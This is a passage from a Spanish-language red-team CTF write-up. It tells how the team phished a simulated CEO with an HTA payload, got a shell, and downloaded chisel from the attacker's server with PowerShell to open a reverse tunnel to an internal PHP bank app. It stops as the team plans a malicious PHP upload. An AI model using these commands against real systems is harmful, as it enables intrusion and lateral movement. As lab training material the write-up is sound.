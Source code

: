 ![Respuesta Marcelo](/images/redteam-ctf-writeup/correomarcelo.png "Qué raro el CEO de la empresa siendo víctima de phishing(?")

Marcelo era nuestra víctima,los otros usuarios quedaban descartados. Nuevamente volvimos a intentar hasta que llegaron las pistas de los chicos de Pucara. El envió de los enlaces era tan fácil como "ip/payload.hta", no había que rebuscársela mucho, nosotros habiamos intentado hasta con dominio y SSL activado, ¡estabamos desesperados!

![Foothold](/images/redteam-ctf-writeup/firstblood.png "Tenemos una shell!!")
No se si también les pasa, pero siento que no hay momento más emocionante que recibir una conexión! Todas las ganas de romper el teclado se desvanecen y solo querés ver qué es lo que sigue! El flag se encontraba en la carpeta "Documents" en el usuario "marce".


## 3er Challenge

![3er challenge](/images/redteam-ctf-writeup/challenge3.png "3er challenge")


Marcelo nos dio el "foothold", ahora comienza lo divertido: el movimiento lateral y el reconocmiento de la red interna. En la página institucional había una seccion llamada "Bank" que te dirigía al enlace "https://10.0.228", conociendo esto necesitamos alguna manera de poder ver y enumerar los distintos recursos de la red interna. Necesitamos hacer un "Túnel" entre nuestra máquina atacante hacia la que obtuvimos acceso. Esto se conoce como tunneling y hay varias maneras de realizarlo, si hubiéramos usado metasploit lo traería inegrado, aunque leí en Discord que a muchos nos les estuvo funcionando para este CTF. Como nosotros teníamos una shell en powershell, decidimos usar una herramienta llamada [chisel](https://github.com/jpillora/chisel), es un solo binario escrito en GO y tiene muchas características! Descargamos la versión de Windows de chisel en nuestro servidor web, lo descomprimos y lo descargamos en nuestra máquina objetivo usando powershell "iwr -Uri http:/ip/chisel.exe -OutFile chisel.exe". Una vez descargado, necesitamos correrlo en nuestra máquina atacante en modo servidor con los siguientes parametros:
```
./chisel server -p 8000 --reverse
```
En la máquina objetivo con los siguientes parametros:
```
./chisel client ip:8000 R:9001:10.0.0.228:443
```
Cuando el cliente se conecta, se abre el puerto 9001 en nuestra máquina y podemos mediante chisel redirigir todo el tráfico que mandemos por el puerto 9001 a la ip interna 10.0.228 puerto 443. Si quieren obtener más info de cómo usar chisel pueden ir al siguiente [enlace](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

Lamentablemente, me olvide de sacar un screenshot de la página principal, pero podíamos ver que se trataba de una aplicación web escrita en PHP y se nos presentaba un formulario para crear un usuario con su respectiva contraseña y loguearnos. Una vez logueados, se nos presenta la siguiente página:
![Bank](/images/redteam-ctf-writeup/bank1.png "Bank")

Y en la sección "profile" lo siguiente:
![Bank profile](/images/redteam-ctf-writeup/bank3.png "Mas duro que gato de yeso")

Si tenemos más de 2000 pe en nuestra cuenta, se permite cambiar nuestra foto de perfil, enseguida podemos inferir que si logramos subir un archivo PHP obtendremos ejecucion de código. Pero, ¿cómo?
